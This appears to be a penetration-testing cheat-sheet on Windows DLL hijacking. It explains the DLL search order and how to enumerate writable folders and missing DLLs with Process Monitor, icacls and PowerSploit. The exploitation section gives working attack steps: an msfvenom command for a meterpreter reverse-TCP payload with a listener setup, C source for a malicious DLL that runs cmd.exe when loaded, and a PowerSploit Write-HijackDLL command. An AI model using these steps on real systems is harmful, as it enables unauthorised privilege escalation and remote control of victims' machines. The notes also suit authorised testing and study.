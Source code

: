 # Windows DLL Hijacking

- If a program loads a DLL from a directory you can write to, you can modify the DLL and load your own code instead
- Will run with the privileges of the program running the DLL
- If a DLL doesn't exist, you could attempt to write it to a location on the search order. 

## Windows Search Order

#### SafeDLLSearchMode

```
HKEY_LOCAL_MACHINE\system\CurrentControlSet\Control\Session Manager\SafeDLLSearchMode
```

- This registry key, if enabled places the the user's current directory later in the search order.  It is enabled by default from Windows XP SP2

### If SafeDLLSearchMode is enabled

https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-security

1. Directory from which the application loaded
2. The system directory
3. The 16-bit system directory
4. The windows directory
5. The current directory
6. Directories listed in PATH environment variable.

### If SafeDLLSearchMode is Disabled

1. The directory from which the application loaded
2. The current directory
3. The system directory
4. The 16-bit system directory
5. The windows directory
6. Directories listed in PATH environment variable

## Enumeration

https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

- You can use process monitor to find Dll with name not found. 
- Filters:

```
result is NAME NOT FOUND
Path ends with .dll
```

- Review the permissions on the folders 

```
icacls <folder>

accesschk.exe -dqv <folder>

Get-Acl -Path <folder> | fl
```

- Powersploit

  https://powersploit.readthedocs.io/en/latest/Privesc/Find-ProcessDLLHijack/

  https://powersploit.readthedocs.io/en/latest/Privesc/Find-PathDLLHijack/

```
Find-ProcessDLLHijack
Find-ProcessDLLHijack -ExcludeWindows -ExcludeProgramFiles
Find-PathDLLHijack
```

## Exploitation

### Metasploit

```
use multi/handler
set payload windows.meterpreter/reverse_tcp
set LHOST

msfvenom -p windows/meterpreter/reverse_tcp lhost= -f exe -o program.exe
```

- Copy the payload to the host
- Replace the affected binary 

### Malicious DLL

https://github.com/sagishahar/scripts/blob/master/windows_dll.c

```
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

- Compile and place into the folder

### PowerSploit

- Write-HijackDLL

  https://powersploit.readthedocs.io/en/latest/Privesc/Write-HijackDll/

  - builds a self-deleting bat file that executes a command. It patches this into a C++DLL that is build to be hijackable bu the IKEEXT service. 

```
Write-HijackDLL -Command '' -BatPath file.bat
```

